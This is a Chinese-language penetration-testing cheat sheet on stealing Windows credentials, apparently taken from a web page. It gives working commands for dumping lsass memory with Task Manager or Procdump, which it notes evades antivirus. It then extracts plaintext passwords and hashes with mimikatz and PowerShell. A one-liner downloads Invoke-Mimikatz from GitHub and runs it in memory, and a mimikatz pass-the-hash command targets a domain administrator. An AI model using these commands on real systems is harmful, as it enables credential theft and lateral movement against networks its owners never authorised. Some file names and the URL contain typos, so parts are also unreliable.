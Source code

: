 ##### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E7%A6%BB%E7%BA%BF%E8%AF%BB%E5%8F%96-lassdmp-%E6%96%87%E4%BB%B6)使用 mimikatz 离线读取 lass.dmp 文件

###### [](#%E5%AF%BC%E5%87%BA-lassdmp-%E6%96%87%E4%BB%B6)导出 lass.dmp 文件

-   使用任务管理器导出 lsass.dmp 文件

任务管理器找到 `lsass.exe` 进程，右键，选择 “Create Dump File” 选项

-   使用 Procdump 导出 lsass.dmp 文件

微软官方发布的工具，免杀

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>Procdump.exe -accepteula -ma lsass.exe lsass.dmp<br>``` |

###### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E5%AF%BC%E5%87%BA-lsassdmp-%E6%96%87%E4%BB%B6%E4%B8%AD%E7%9A%84%E5%AF%86%E7%A0%81%E5%80%BC)使用 mimikatz 导出 lsass.dmp 文件中的密码值

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>sekurlsa::mimidump lsass.dmp<br>sekurlsa::logonpasswords full<br>``` |

#### [](#%E4%BD%BF%E7%94%A8-powershell-%E5%AF%B9%E6%95%A3%E5%88%97%E5%80%BC%E8%BF%9B%E8%A1%8C-dump-%E6%93%8D%E4%BD%9C)使用 Powershell 对散列值进行 Dump 操作

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Import-Module .\Get-PassHashes.ps1<br>``` |

#### [](#%E4%BD%BF%E7%94%A8-powershell-%E8%BF%9C%E7%A8%8B%E5%8A%A0%E8%BD%BD-mimikatz-%E6%8A%93%E5%8F%96%E6%95%A3%E5%88%97%E5%80%BC%E5%92%8C%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81)使用 Powershell 远程加载 mimikatz 抓取散列值和明文密码

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PwoerSploit/master/Exfilration/Invoke-Mimikatz.ps1');Invoke-Mimikatz"<br>``` |

## [](#%E5%93%88%E5%B8%8C%E4%BC%A0%E9%80%92%E6%94%BB%E5%87%BB)哈希传递攻击

### [](#%E4%BD%BF%E7%94%A8-ntlm-hash-%E8%BF%9B%E8%A1%8C%E5%93%88%E5%B8%8C%E4%BC%A0%E9%80%92)使用 NTLM Hash 进行哈希传递

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:pentest.hacker /ntlm:[NTLM]"<br>``` |
